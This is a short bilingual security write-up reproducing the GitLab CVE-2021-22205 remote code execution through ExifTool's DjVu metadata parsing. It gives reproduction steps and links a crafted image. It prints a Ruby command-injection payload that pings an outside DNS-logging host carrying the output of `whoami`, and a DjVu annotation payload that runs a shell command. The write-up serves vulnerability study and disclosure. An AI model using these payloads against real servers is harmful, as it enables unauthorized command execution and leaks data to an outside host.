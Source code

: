```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2021-22205 snippet RCE
permalink: /about/Gitlab-RCE-with-snippet-function/
author: Bin4xin
desc: 「Gitlab」
description: GitLab | CVE-2021-22205 | snippet导致的远程代码执行 | snippet RCE
---
```


### 复现

- Create a new snippet
- 登录创建一个仓库，并且创建新的`snippet`
- In the description field, hit `"Attach a file"`; Select and uplaod echo_vakzz.jpg
- [`echo_vakzz.jpg`](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Gitlab/CVE-2021-22205/echo_vakzz.jpg){:target="_blank"}上传附件
- See that the file /tmp/vakzz has been created on the server

也可以通过未授权RCE，具体可以查看[(CVE-2021-22205)RCE - 七、手工复现-未授权](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}

> 制作rce图片可直接编辑，修改下面的代码就好；或者上面的文章中
>
> **[六、手工复现-有授权 - 2 DjVu格式图片制作方式]**
>
> 也有相应的制作方法。

```ruby
qx{ping `whoami`.5pxha.i3ntq7.bnslog.top}
```

### 效果

![May-18-2022-11-27-15.gif]({{site.PicturesLinks_Domain}}/images/2022/05/18/May-18-2022-11-27-15.gif)

### 分析

如作者在报告里所说：

- When uploading image files, GitLab Workhorse passes any files with the extensions `[jpg|jpeg|tiff]` through to ExifTool to remove any non-whitelisted tags.
- 上传图像文件时，`GitLab Workhorse` 会将任何扩展名为 `jpg|jpeg|tiff` 的文件传递给 `ExifTool`，以删除任何未列入白名单的标签。

```go
func IsExifFile(filename string) bool {
	filenameMatch := regexp.MustCompile(`(?i)\.(jpg|jpeg|tiff)$`)

	return filenameMatch.MatchString(filename)
}
```

- One of the supported formats is DjVu. When parsing the DjVu annotation, the tokens are evaled to "convert C escape sequences".

```perl
(metadata
	(Copyright "\
" . qx{echo vakzz >/tmp/vakzz} . \
" b ") )
```

### 参考

- [HackerOne - RCE when removing metadata with ExifTool](https://hackerone.com/reports/1154542){:target="_blank"}
- [GitLab 远程命令执行漏洞复现(CVE-2021-22205)](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}